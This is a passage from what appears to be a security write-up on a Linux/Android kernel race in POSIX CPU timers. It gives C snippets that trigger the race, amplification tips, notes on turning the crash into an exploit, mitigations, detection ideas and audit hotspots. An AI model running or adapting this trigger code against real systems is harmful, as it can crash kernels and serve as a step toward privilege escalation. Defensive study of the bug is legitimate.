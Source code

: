 ```c
static timer_t t;
static void setup_cpu_timer(void) {
    struct sigevent sev = {0};
    sev.sigev_notify = SIGEV_SIGNAL;    // delivery type not critical for the race
    sev.sigev_signo = SIGUSR1;
    if (timer_create(CLOCK_THREAD_CPUTIME_ID, &sev, &t)) perror("timer_create");
    struct itimerspec its = {0};
    its.it_value.tv_nsec = 1;           // fire ASAP
    its.it_interval.tv_nsec = 1;        // re-fire
    if (timer_settime(t, 0, &its, NULL)) perror("timer_settime");
}
```

- From a sibling thread, concurrently delete the same timer while the target thread exits:

```c
void *deleter(void *arg) {
    for (;;) (void)timer_delete(t);     // hammer delete in a loop
}
```

- Race amplifiers: high scheduler tick rate, CPU load, repeated thread exit/re-create cycles. The crash typically manifests when posix_cpu_timer_del() skips noticing firing due to failing task lookup/locking right after unlock_task_sighand().

Detection and hardening
- Mitigation: apply the exit_state guard; prefer enabling CONFIG_POSIX_CPU_TIMERS_TASK_WORK when feasible.
- Observability: add tracepoints/WARN_ONCE around unlock_task_sighand()/posix_cpu_timer_del(); alert when it.cpu.firing==1 is observed together with failed cpu_timer_task_rcu()/lock_task_sighand(); watch for timerqueue inconsistencies around task exit.

Audit hotspots (for reviewers)
- update_process_times() → run_posix_cpu_timers() (IRQ)
- __run_posix_cpu_timers() selection (TASK_WORK vs IRQ path)
- collect_timerqueue(): sets ctmr->firing and moves nodes
- handle_posix_cpu_timers(): drops sighand before firing loop
- posix_cpu_timer_del(): relies on it.cpu.firing to detect in-flight expiry; this check is skipped when task lookup/lock fails during exit/reap

Notes for exploitation research
- The disclosed behavior is a reliable kernel crash primitive; turning it into privilege escalation typically needs an additional controllable overlap (object lifetime or write-what-where influence) beyond the scope of this summary. Treat any PoC as potentially destabilizing and run only in emulators/VMs.

### See also

[[ksmbd-streams_xattr-oob-write-cve-2025-37947.md]]

## References
- [Race Against Time in the Kernel’s Clockwork (StreyPaws)](https://streypaws.github.io/posts/Race-Against-Time-in-the-Kernel-Clockwork/)
- [Android security bulletin – September 2025](https://source.android.com/docs/security/bulletin/2025-09-01)
- [Android common kernel patch commit 157f357d50b5…](https://android.googlesource.com/kernel/common/+/157f357d50b5038e5eaad0b2b438f923ac40afeb%5E%21/#F0)

